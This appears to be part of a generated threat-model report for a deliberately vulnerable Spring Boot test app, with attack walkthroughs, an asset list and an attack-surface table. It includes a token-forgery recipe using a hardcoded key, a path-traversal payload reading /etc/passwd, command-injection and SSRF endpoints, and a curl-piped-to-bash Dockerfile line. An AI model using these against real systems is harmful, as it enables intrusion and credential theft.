

**Key takeaway:** Until ● [M-014](#m-014) (Remove `permitAll()` for /api/crypto/** and /api/legacy-crypto) lands, 🔴 [F-014](#f-014) is exploitable at `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:45` (Critical-severity, [CWE-862](https://cwe.mitre.org/data/definitions/862.html)).

**Defense in Depth**

- Primary mitigation: ● [M-014](#m-014) (Remove `permitAll()` for /api/crypto/** and /api/legacy-crypto/** and require authentication or restrict to ADMIN role)

### 3.7 H2 Database Console Publicly Exposed in Security Config

**Source:** 🔴 [F-016](#f-016) — `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:32`

Severity **Critical** ([CWE-862](https://cwe.mitre.org/data/definitions/862.html)). STRIDE: Elevation of Privilege. See [§8 F-016](#f-016) for the full register row.

**Attack Steps**

1. An attacker browses to GET /h2-console in a web browser.
2. `SecurityConfig.java` line 32 permits all requests to /h2-console/**, and `application.yml` enables the H2 console (`spring.h2.console.enabled`: true).
3. The console presents a login form connected to the in-process H2 database with the JDBC URL jdbc:h2:mem:appsec_verification_target and no password (username sa, password empty).

**Sequence Diagram**


**Key takeaway:** Until ● [M-016](#m-016) (Disable the H2 console in production and remove its permitAl) lands, 🔴 [F-016](#f-016) is exploitable at `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:32` (Critical-severity, [CWE-862](https://cwe.mitre.org/data/definitions/862.html)).

**Defense in Depth**

- Primary mitigation: ● [M-016](#m-016) (Disable the H2 console in production and remove its permitAll SecurityConfig rule)

### 3.8 Forgeable Custom Authentication Tokens in Homegrown Cipher

**Source:** 🔴 [F-004](#f-004) — `src/main/java/com/example/appsecverificationtarget/crypto/HomegrownCipher.java:8`

Severity **Critical** ([CWE-321](https://cwe.mitre.org/data/definitions/321.html)). STRIDE: Spoofing. See [§8 F-004](#f-004) for the full register row.

**Attack Steps**

1. An attacker (or insider with source access) reads the hardcoded XOR key `"orderdesk-legacy-key"` from HomegrownCipher.java.
2. They construct any desired token payload by XOR-ing `v1:<victim_subject>` with the key and base64url-encoding the result - locally, offline, with no server interaction needed.
3. Calling `GET /api/legacy-crypto/whoami?token=<forged>` proves the forgery: the server decodes and returns the spoofed subject.

**Sequence Diagram**



**Key takeaway:** Until ● [M-004](#m-004) (Replace XOR token issuance with HMAC-SHA256 or JWT RS256 sig) lands, 🔴 [F-004](#f-004) is exploitable at `src/main/java/com/example/appsecverificationtarget/crypto/HomegrownCipher.java:8` (Critical-severity, [CWE-321](https://cwe.mitre.org/data/definitions/321.html)).

**Defense in Depth**

- Primary mitigation: ● [M-004](#m-004) (Replace XOR token issuance with HMAC-SHA256 or JWT RS256 signed with a rotatable secret)

<!-- generated:walkthrough_renderer -->

---

## 4. Assets

Information assets and the classification level that drives the Confidentiality / Integrity / Availability targets used in [§8 Findings Register](#8-findings-register) risk scoring.

| Asset | Classification | Description |
|----------------------|--------------|------------------------------------|
| User Credentials (Passwords) | Restricted | User passwords stored in H2 (BCrypt in main<br/>path; cleartext in legacy SQLite<br/>runtime/legacy-auth.sqlite). Also logged in<br/>cleartext by CredentialLoggingFilter. |
| JWT Signing Key | Restricted | Hardcoded JWT signing key<br/>(`JWT_SIGNING_KEY`=hardcoded-legacy-jwt-secret)<br/>baked into Dockerfile ENV variables and<br/>`application.yml`. Controls authenticity of<br/>all JWT tokens. |
| AWS API Credentials | Restricted | `AWS_ACCESS_KEY_ID` and `AWS_SECRET_ACCESS_KEY`<br/>hardcoded as Dockerfile ENV variables (AKIA****<br/>(20 chars) / wJalrXUtnFEMI/K7MDENG/...).<br/>These are fixture values but follow the real<br/>credential format. |
| Application Environment Variables and<br/>Secrets | Restricted | `DB_PASSWORD`, `JWT_SIGNING_KEY`, AWS<br/>credentials, and integration-token (loca**** (28<br/>chars)) exposed via Spring Actuator<br/>/actuator/env endpoint which is publicly<br/>accessible without authentication. |
| Customer Order Records | Confidential | CustomerOrder entity stored in H2 database.<br/>Includes owner email, line items, order<br/>status. Exposed via IDOR on GET<br/>/api/orders/{id} without ownership<br/>verification. |
| User Profile and PII | Confidential | AppUser entity containing username, email,<br/>role, and profile data. Exposed via IDOR on<br/>GET /api/users/{id}. Mass assignment<br/>vulnerability allows role field manipulation<br/>via PUT /profile. |
| Document Records | Confidential | DocumentRecord entities including owner,<br/>tags, and file attachments. Exposed via SQL<br/>injection in DocumentLookupDao#findByTag.<br/>Unauthorized document release possible via<br/>DocumentDecisionController. |
| Uploaded Files | Confidential | User-uploaded files stored in<br/>runtime/uploads and runtime/documents.<br/>Exposed via path traversal on GET<br/>/api/files/read?name=../../../../etc/passwd.<br/>No file type validation on upload. |
| Spring Boot Application Runtime | Internal | The Spring Boot application process<br/>including JVM heap, loaded classes, and<br/>runtime state. Spring Actuator<br/>/actuator/heapdump endpoint allows<br/>unauthenticated JVM heap dump extraction. |
| Server Host Resources | Internal | Underlying OS and server resources reachable<br/>via command injection (GET<br/>/api/tools/lookup?name=<cmd>), SSRF (GET<br/>/api/integration/fetch?url=<internal-url>), and<br/>world-writable container directories (chmod<br/>-R 777 /app). |

---

## 5. Attack Surface

Network-reachable entry points classified by authentication requirement. Each row links to the threat(s) referenced in its **Notes** column. The **Risk** column reflects the highest-severity linked finding. Entry points with no linked finding are still listed when they sit on a sensitive surface (authentication, registration, management) or look like a missing-auth/authz suspect - marked **⚑ Review** in Notes.

### 5.1 Unauthenticated Entry Points (90)

| Method | Route | Risk | Notes |
|------|----------------------------------------|--------------|------------------------------------|
| GET | `/admin/users` | 🔴 Critical | 🔴 [F-002](#f-002) — Missing Authentication for Critical Function (`LegacyAdminBoardController.java:29`)<br/>🔴 [F-037](#f-037) — Missing Authorization (`LegacyAdminBoardController.java:37`)<br/>Management surface; handler: `src/main/java/com/example/appsecverificationtarget/web/AdminUsersPageController.java:46` |
| POST | `/admin/users` | 🔴 Critical | 🔴 [F-002](#f-002) — Missing Authentication for Critical Function (`LegacyAdminBoardController.java:29`)<br/>🔴 [F-037](#f-037) — Missing Authorization (`LegacyAdminBoardController.java:37`)<br/>Management surface; handler: `src/main/java/com/example/appsecverificationtarget/web/AdminUsersPageController.java:53` |
| GET | `/admin/users/{id}` | 🔴 Critical | 🔴 [F-002](#f-002) — Missing Authentication for Critical Function (`LegacyAdminBoardController.java:29`)<br/>🔴 [F-037](#f-037) — Missing Authorization (`LegacyAdminBoardController.java:37`)<br/>Management surface; handler: `src/main/java/com/example/appsecverificationtarget/web/AdminUsersPageController.java:79` |
| POST | `/admin/users/{id}` | 🔴 Critical | 🔴 [F-002](#f-002) — Missing Authentication for Critical Function (`LegacyAdminBoardController.java:29`)<br/>🔴 [F-037](#f-037) — Missing Authorization (`LegacyAdminBoardController.java:37`)<br/>Management surface; handler: `src/main/java/com/example/appsecverificationtarget/web/AdminUsersPageController.java:88` |
| POST | `/admin/users/{id}/delete` | 🔴 Critical | 🔴 [F-037](#f-037) — Missing Authorization (`LegacyAdminBoardController.java:37`)<br/>🔴 [F-002](#f-002) — Missing Authentication for Critical Function (`LegacyAdminBoardController.java:29`)<br/>🔴 [F-016](#f-016) — H2 Database Console Publicly Exposed (`SecurityConfig.java:32`)<br/>Management surface; handler: `src/main/java/com/example/appsecverificationtarget/web/AdminUsersPageController.java:129` |
| POST | `/documents` | 🔴 Critical | 🟠 [F-001](#f-001) — Missing Rate Limiting on Public Endpoints (`OrderSearchController.java:24`)<br/>🔴 [F-010](#f-010) — Unauthenticated Path Traversal Read (`FileReadController.java:19`)<br/>🟠 [F-023](#f-023) — Path Traversal Write via Unsanitized Upload Filename (`BusinessFileStorage.java:23`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/web/DocumentManagementController.java:60` |
| GET | `/legacy/admin` | 🔴 Critical | 🔴 [F-002](#f-002) — Missing Authentication for Critical Function (`LegacyAdminBoardController.java:29`)<br/>🔴 [F-037](#f-037) — Missing Authorization (`LegacyAdminBoardController.java:37`)<br/>Management surface; handler: `src/main/java/com/example/appsecverificationtarget/legacyadmin/LegacyAdminBoardController.java:22` |
| POST | `/​legacy/​admin/​users/​{id}/​delete` | 🔴 Critical | 🔴 [F-037](#f-037) — Missing Authorization (`LegacyAdminBoardController.java:37`)<br/>🔴 [F-002](#f-002) — Missing Authentication for Critical Function (`LegacyAdminBoardController.java:29`)<br/>🔴 [F-005](#f-005) — SQL Injection in Legacy Auth Endpoint (`LegacySqliteUserStore.java:64`)<br/>Management surface; handler: `src/main/java/com/example/appsecverificationtarget/legacyadmin/LegacyAdminBoardController.java:37` |
| POST | `/​legacy/​admin/​users/​{id}/​promote` | 🔴 Critical | 🔴 [F-002](#f-002) — Missing Authentication for Critical Function (`LegacyAdminBoardController.java:29`)<br/>🔴 [F-037](#f-037) — Missing Authorization (`LegacyAdminBoardController.java:37`)<br/>🔴 [F-005](#f-005) — SQL Injection in Legacy Auth Endpoint (`LegacySqliteUserStore.java:64`)<br/>Management surface; handler: `src/main/java/com/example/appsecverificationtarget/legacyadmin/LegacyAdminBoardController.java:28` |
| GET | `/login` | 🔴 Critical | 🔴 [F-005](#f-005) — SQL Injection in Legacy Auth Endpoint (`LegacySqliteUserStore.java:64`)<br/>🟠 [F-019](#f-019) — CSRF Protection Disabled Application-Wide (`SecurityConfig.java:28`)<br/>🟠 [F-029](#f-029) — Plaintext Password Logged on Every Login (`CredentialLoggingFilter.java:25`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/web/WebUiController.java:41` |
| GET | `/login-raw` | 🔴 Critical | 🔴 [F-005](#f-005) — SQL Injection in Legacy Auth Endpoint (`LegacySqliteUserStore.java:64`)<br/>🟠 [F-038](#f-038) — No Rate Limiting on Auth Endpoints Enables Credential Stuffing (`SecurityConfig.java:30`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteAuthController.java:37` |
| PUT | `/me` | 🔴 Critical | 🔴 [F-013](#f-013) — Mass Assignment Privilege Escalation (`ProfileController.java:44`)<br/>🟠 [F-026](#f-026) — Server-Side Request Forgery (`IntegrationController.java:23`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/accesscontrol/ProfileController.java:34` |
| POST | `/orders` | 🔴 Critical | 🟠 [F-001](#f-001) — Missing Rate Limiting on Public Endpoints (`OrderSearchController.java:24`)<br/>🔴 [F-006](#f-006) — SQL Injection (`OrderLookupDao.java:22`)<br/>🟠 [F-017](#f-017) — Base64 Session Token Forgeable for Any User (`HomegrownSessionService.java:21`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/web/OrderManagementController.java:61` |
| POST | `/profile` | 🔴 Critical | 🔴 [F-013](#f-013) — Mass Assignment Privilege Escalation (`ProfileController.java:44`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/web/ProfilePageController.java:51` |
| GET | `/token` | 🔴 Critical | 🔴 [F-014](#f-014) — All Crypto Endpoints Exposed Without Authentication (`SecurityConfig.java:45`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/crypto/CustomCryptoController.java:26` |
| GET | `/​actuator/​** (Spring Actuator — all endpoints)` | 🔴 Critical | 🔴 [F-011](#f-011) — Actuator Endpoints Publicly Exposed with Full Secret Values (`SecurityConfig.java:33`)<br/>All Spring Actuator endpoints publicly exposed without authentication. /actuator/env exposes environment variables including secrets. /actuator/heapdump allows JVM memory extraction. |
| GET | `/​api/​files/​read?​name=​ (path traversal)` | 🔴 Critical | 🔴 [F-010](#f-010) — Unauthenticated Path Traversal Read (`FileReadController.java:19`)<br/>🟠 [F-036](#f-036) — Legacy Credential Database Baked Into Container Image Layers (`legacy-auth.sqlite`)<br/>Path traversal via unsanitized filename parameter appended to base directory. Allows reading arbitrary server-side files including /etc/passwd. |
| GET | `/​api/​tools/​lookup?​name=​ (command injection)` | 🔴 Critical | 🔴 [F-007](#f-007) — OS Command Injection (`ToolController.java:18`)<br/>OS command injection via `Runtime.getRuntime()`.exec() with user-supplied tool name parameter. Allows arbitrary OS command execution. |
| GET | `/audit` | 🔴 Critical | 🔴 [F-003](#f-003) — Insecure JWT Verification (`LegacyJwtVerifier.java:15`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/authentication/LegacyAdminAuditController.java:37` |
| GET | `/credentials` | 🔴 Critical | 🔴 [F-009](#f-009) — Unprotected Vault Credential Recovery Endpoint Exposes Plaintext Passwords (`CustomCryptoController.java:45`)<br/>🔴 [F-014](#f-014) — All Crypto Endpoints Exposed Without Authentication (`SecurityConfig.java:45`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/crypto/CustomCryptoController.java:39` |
| GET | `/documents` | 🔴 Critical | 🟠 [F-001](#f-001) — Missing Rate Limiting on Public Endpoints (`OrderSearchController.java:24`)<br/>🔴 [F-010](#f-010) — Unauthenticated Path Traversal Read (`FileReadController.java:19`)<br/>🟠 [F-023](#f-023) — Path Traversal Write via Unsanitized Upload Filename (`BusinessFileStorage.java:23`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/web/DocumentManagementController.java:42` |
| GET | `/​h2-​console/​** (H2 database console)` | 🔴 Critical | 🔴 [F-015](#f-015) — Unauthenticated H2 Console Access (`SecurityConfig.java:32`)<br/>🔴 [F-016](#f-016) — H2 Database Console Publicly Exposed (`SecurityConfig.java:32`)<br/>H2 in-memory database web console publicly accessible. Allows direct SQL execution against the application database. |
| GET | `/lookup` | 🔴 Critical | 🔴 [F-007](#f-007) — OS Command Injection (`ToolController.java:18`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/serverside/ToolController.java:16` |
| GET | `/me` | 🔴 Critical | 🔴 [F-013](#f-013) — Mass Assignment Privilege Escalation (`ProfileController.java:44`)<br/>🟠 [F-026](#f-026) — Server-Side Request Forgery (`IntegrationController.java:23`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/accesscontrol/ProfileController.java:26` |
| GET | `/orders` | 🔴 Critical | 🟠 [F-001](#f-001) — Missing Rate Limiting on Public Endpoints (`OrderSearchController.java:24`)<br/>🔴 [F-006](#f-006) — SQL Injection (`OrderLookupDao.java:22`)<br/>🟠 [F-017](#f-017) — Base64 Session Token Forgeable for Any User (`HomegrownSessionService.java:21`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/authentication/LegacySessionOrderController.java:27` |
| GET | `/profile` | 🔴 Critical | 🔴 [F-013](#f-013) — Mass Assignment Privilege Escalation (`ProfileController.java:44`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/authentication/SecureJwtController.java:14` |
| GET | `/read` | 🔴 Critical | 🔴 [F-010](#f-010) — Unauthenticated Path Traversal Read (`FileReadController.java:19`)<br/>🟠 [F-036](#f-036) — Legacy Credential Database Baked Into Container Image Layers (`legacy-auth.sqlite`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/serverside/FileReadController.java:17` |
| GET | `/search` | 🔴 Critical | 🟠 [F-001](#f-001) — Missing Rate Limiting on Public Endpoints (`OrderSearchController.java:24`)<br/>🔴 [F-006](#f-006) — SQL Injection (`OrderLookupDao.java:22`)<br/>🔴 [F-042](#f-042) — Unauthenticated cross-user order lookup via arbitrary email (`OrderSearchController.java:24`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/inputvalidation/OrderSearchController.java:23` |
| GET | `/users` | 🔴 Critical | 🔴 [F-002](#f-002) — Missing Authentication for Critical Function (`LegacyAdminBoardController.java:29`)<br/>🔴 [F-008](#f-008) — Unauthenticated Endpoint Returns All Users With Cleartext Passwords (`LegacySqliteAuthController.java:50`)<br/>🟠 [F-035](#f-035) — Cleartext Password Enumeration via Public API (`LegacySqliteUserStore.java:77`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteAuthController.java:49` |
| GET | `/users/{id}` | 🔴 Critical | 🔴 [F-002](#f-002) — Missing Authentication for Critical Function (`LegacyAdminBoardController.java:29`)<br/>🔴 [F-037](#f-037) — Missing Authorization (`LegacyAdminBoardController.java:37`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/web/UserDirectoryController.java:24` |
| GET | `/whoami` | 🔴 Critical | 🔴 [F-004](#f-004) — Forgeable Custom Authentication Tokens (`HomegrownCipher.java:8`)<br/>🔴 [F-014](#f-014) — All Crypto Endpoints Exposed Without Authentication (`SecurityConfig.java:45`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/crypto/CustomCryptoController.java:34` |
| GET | `/{id}` | 🔴 Critical | 🔴 [F-002](#f-002) — Missing Authentication for Critical Function (`LegacyAdminBoardController.java:29`)<br/>🟠 [F-023](#f-023) — Path Traversal Write via Unsanitized Upload Filename (`BusinessFileStorage.java:23`)<br/>🔴 [F-037](#f-037) — Missing Authorization (`LegacyAdminBoardController.java:37`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/accesscontrol/UserAccessController.java:21` |
| ? | `ANY /api/crypto` | 🔴 Critical | 🔴 [F-014](#f-014) — All Crypto Endpoints Exposed Without Authentication (`SecurityConfig.java:45`)<br/>🟠 [F-022](#f-022) — Predictable OTP from Non-Cryptographic PRNG (`LegacyTokenService.java:10`)<br/>🟠 [F-033](#f-033) — Unsalted MD5 Password Hashing (`LegacyPasswordService.java:15`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/crypto/CryptoController.java:11` |
| ? | `ANY /api/files` | 🔴 Critical | 🔴 [F-010](#f-010) — Unauthenticated Path Traversal Read (`FileReadController.java:19`)<br/>🟠 [F-036](#f-036) — Legacy Credential Database Baked Into Container Image Layers (`legacy-auth.sqlite`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/serverside/FileReadController.java:14` |
| ? | `ANY /api/legacy-admin` | 🔴 Critical | 🔴 [F-003](#f-003) — Insecure JWT Verification (`LegacyJwtVerifier.java:15`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/authentication/LegacyAdminAuditController.java:17` |
| ? | `ANY /api/legacy-crypto` | 🔴 Critical | 🔴 [F-004](#f-004) — Forgeable Custom Authentication Tokens (`HomegrownCipher.java:8`)<br/>🔴 [F-009](#f-009) — Unprotected Vault Credential Recovery Endpoint Exposes Plaintext Passwords (`CustomCryptoController.java:45`)<br/>🔴 [F-014](#f-014) — All Crypto Endpoints Exposed Without Authentication (`SecurityConfig.java:45`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/crypto/CustomCryptoController.java:12` |
| ? | `ANY /api/legacy-sqlite` | 🔴 Critical | 🔴 [F-005](#f-005) — SQL Injection in Legacy Auth Endpoint (`LegacySqliteUserStore.java:64`)<br/>🔴 [F-008](#f-008) — Unauthenticated Endpoint Returns All Users With Cleartext Passwords (`LegacySqliteAuthController.java:50`)<br/>🟠 [F-035](#f-035) — Cleartext Password Enumeration via Public API (`LegacySqliteUserStore.java:77`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteAuthController.java:16` |
| ? | `ANY /api/orders` | 🔴 Critical | 🟠 [F-001](#f-001) — Missing Rate Limiting on Public Endpoints (`OrderSearchController.java:24`)<br/>🔴 [F-006](#f-006) — SQL Injection (`OrderLookupDao.java:22`)<br/>🟠 [F-040](#f-040) — Insecure Direct Object Reference (`OrderAccessController.java:24`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/accesscontrol/OrderAccessController.java:14` |
| ? | `ANY /api/profile` | 🔴 Critical | 🔴 [F-013](#f-013) — Mass Assignment Privilege Escalation (`ProfileController.java:44`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/accesscontrol/ProfileController.java:17` |
| ? | `ANY /api/tools` | 🔴 Critical | 🔴 [F-007](#f-007) — OS Command Injection (`ToolController.java:18`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/serverside/ToolController.java:13` |
| ? | `RUN curl -​sfL https:​/​/​example.​com/​install-​agent.​sh | bash (Dockerfile)` | 🔴 Critical | 🔴 [F-007](#f-007) — OS Command Injection (`ToolController.java:18`)<br/>Remote script execution during container build. Script from external host piped directly to bash without checksum verification. Supply chain attack vector. |
| POST | `/orders/{id}` | 🟠 High | 🟠 [F-023](#f-023) — Path Traversal Write via Unsanitized Upload Filename (`BusinessFileStorage.java:23`)<br/>🟠 [F-040](#f-040) — Insecure Direct Object Reference (`OrderAccessController.java:24`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/web/OrderManagementController.java:107` |
| GET | `/otp` | 🟠 High | 🟠 [F-022](#f-022) — Predictable OTP from Non-Cryptographic PRNG (`LegacyTokenService.java:10`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/crypto/CryptoController.java:33` |
| GET | `/password-digest` | 🟠 High | 🟠 [F-033](#f-033) — Unsalted MD5 Password Hashing (`LegacyPasswordService.java:15`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/crypto/CryptoController.java:28` |
| POST | `/preview` | 🟠 High | 🟠 [F-025](#f-025) — XML External Entity Injection (`XmlPreviewController.java:22`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/serverside/XmlPreviewController.java:20` |
| GET | `/register` | 🟠 High | 🟠 [F-019](#f-019) — CSRF Protection Disabled Application-Wide (`SecurityConfig.java:28`)<br/>🟠 [F-038](#f-038) — No Rate Limiting on Auth Endpoints Enables Credential Stuffing (`SecurityConfig.java:30`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/authentication/RegistrationController.java:35` |
| POST | `/register` | 🟠 High | 🟠 [F-019](#f-019) — CSRF Protection Disabled Application-Wide (`SecurityConfig.java:28`)<br/>🟠 [F-038](#f-038) — No Rate Limiting on Auth Endpoints Enables Credential Stuffing (`SecurityConfig.java:30`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/authentication/RegistrationController.java:40` |
| ? | `ANY /api/admin` | 🟠 High | 🔴 [F-028](#f-028) — Missing Authorization (`AdminReportController.java:35`)<br/>🔴 [F-043](#f-043) — Admin Report Endpoint Unauthenticated (`SecurityConfig.java:34`)<br/>Management surface; handler: `src/main/java/com/example/appsecverificationtarget/accesscontrol/AdminReportController.java:14` |
| GET | `/​api/​integration/​fetch?​url=​ (SSRF)` | 🟠 High | 🟠 [F-026](#f-026) — Server-Side Request Forgery (`IntegrationController.java:23`)<br/>Server-Side Request Forgery via `RestTemplate.getForObject()` with user-supplied URL parameter. No URL validation or allowlist. Allows reaching internal services. |
| GET | `/fetch` | 🟠 High | 🟠 [F-026](#f-026) — Server-Side Request Forgery (`IntegrationController.java:23`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/serverside/IntegrationController.java:21` |
| GET | `/legacy-session` | 🟠 High | 🟠 [F-017](#f-017) — Base64 Session Token Forgeable for Any User (`HomegrownSessionService.java:21`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/authentication/AuthController.java:41` |
| GET | `/orders/{id}` | 🟠 High | 🟠 [F-023](#f-023) — Path Traversal Write via Unsanitized Upload Filename (`BusinessFileStorage.java:23`)<br/>🟠 [F-040](#f-040) — Insecure Direct Object Reference (`OrderAccessController.java:24`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/web/OrderManagementController.java:89` |
| GET | `/preview` | 🟠 High | 🟠 [F-025](#f-025) — XML External Entity Injection (`XmlPreviewController.java:22`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/outputhandling/OutputPreviewController.java:19` |
| GET | `/report` | 🟠 High | 🔴 [F-028](#f-028) — Missing Authorization (`AdminReportController.java:35`)<br/>🔴 [F-043](#f-043) — Admin Report Endpoint Unauthenticated (`SecurityConfig.java:34`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/accesscontrol/AdminReportController.java:34` |
| GET | `/{id}/owned` | 🟠 High | 🟠 [F-040](#f-040) — Insecure Direct Object Reference (`OrderAccessController.java:24`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/accesscontrol/OrderAccessController.java:31` |
| ? | `ANY /api/auth` | 🟠 High | 🟠 [F-017](#f-017) — Base64 Session Token Forgeable for Any User (`HomegrownSessionService.java:21`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/authentication/AuthController.java:14` |
| ? | `ANY /api/documents` | 🟠 High | 🟠 [F-001](#f-001) — Missing Rate Limiting on Public Endpoints (`OrderSearchController.java:24`)<br/>🟡 [F-046](#f-046) — Unauthenticated public-feed exposes internal storageName and classification fie… (`DocumentSearchController.java:33`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/accesscontrol/DocumentDecisionController.java:15` |
| ? | `ANY /api/integration` | 🟠 High | 🟠 [F-026](#f-026) — Server-Side Request Forgery (`IntegrationController.java:23`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/serverside/IntegrationController.java:12` |
| ? | `ANY /api/legacy-session` | 🟠 High | 🟠 [F-017](#f-017) — Base64 Session Token Forgeable for Any User (`HomegrownSessionService.java:21`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/authentication/LegacySessionOrderController.java:16` |
| ? | `ANY /api/xml` | 🟠 High | 🟠 [F-025](#f-025) — XML External Entity Injection (`XmlPreviewController.java:22`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/serverside/XmlPreviewController.java:17` |
| GET | `/export-token` | 🟡 Medium | 🟠 [F-044](#f-044) — Deterministic AES/ECB Encryption without IV (`LegacyCryptoService.java:17`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/crypto/CryptoController.java:38` |
| GET | `/public-feed` | 🟡 Medium | 🟡 [F-046](#f-046) — Unauthenticated public-feed exposes internal storageName and classification fie… (`DocumentSearchController.java:33`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/inputvalidation/DocumentSearchController.java:32` |
| GET | `/admin-preferences` | - | Management surface; handler: `src/main/java/com/example/appsecverificationtarget/accesscontrol/ProfileController.java:53`<br/>_⚑ Review: no auth guard detected_ |
| POST | `/csrf/settings` | - | handler: `src/main/java/com/example/appsecverificationtarget/csrf/CsrfSettingsController.java:40`<br/>_⚑ Review: no auth guard detected_ |
| POST | `/documents/{id}` | - | handler: `src/main/java/com/example/appsecverificationtarget/web/DocumentManagementController.java:96`<br/>_⚑ Review: no auth guard detected_ |
| POST | `/documents/{id}/delete` | - | handler: `src/main/java/com/example/appsecverificationtarget/web/DocumentManagementController.java:120`<br/>_⚑ Review: no auth guard detected_ |
| POST | `/orders/{id}/delete` | - | handler: `src/main/java/com/example/appsecverificationtarget/web/OrderManagementController.java:131`<br/>_⚑ Review: no auth guard detected_ |
| GET | `/signed-jwt/token` | - | handler: `src/main/java/com/example/appsecverificationtarget/authentication/AuthController.java:49`<br/>_⚑ Review: auth/token endpoint_ |
| POST | `/{id}/release` | - | handler: `src/main/java/com/example/appsecverificationtarget/accesscontrol/DocumentDecisionController.java:24`<br/>_⚑ Review: no auth guard detected_ |
| ? | `ANY /api/admin/users` | - | Management surface; handler: `src/main/java/com/example/appsecverificationtarget/accesscontrol/AdminUserController.java:12`<br/>_⚑ Review: no auth guard detected_ |

_20 further entry point(s) in this category carry no linked finding and no elevated review signal, and are not listed individually (90 total). The complete route inventory is available in `.route-inventory.json` and, when exported, `pentest-tasks.yaml`._

### 5.2 Authenticated Entry Points (1)

| Method | Route | Risk | Notes |
|------|------------|----------|------------------------------------|
| POST | `/login` | 🔴 Critical | 🔴 [F-005](#f-005) — SQL Injection in Legacy Auth Endpoint (`LegacySqliteUserStore.java:64`)<br/>🟠 [F-019](#f-019) — CSRF Protection Disabled Application-Wide (`SecurityConfig.java:28`)<br/>🟠 [F-029](#f-029) — Plaintext Password Logged on Every Login (`CredentialLoggingFilter.java:25`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteAuthController.java:25` |

---

## 6. Security Architecture

This chapter is organized by security-control category. The architecture section avoids artificial control IDs and finding-ID columns in overview tables. Findings are listed only where the affected control is described.

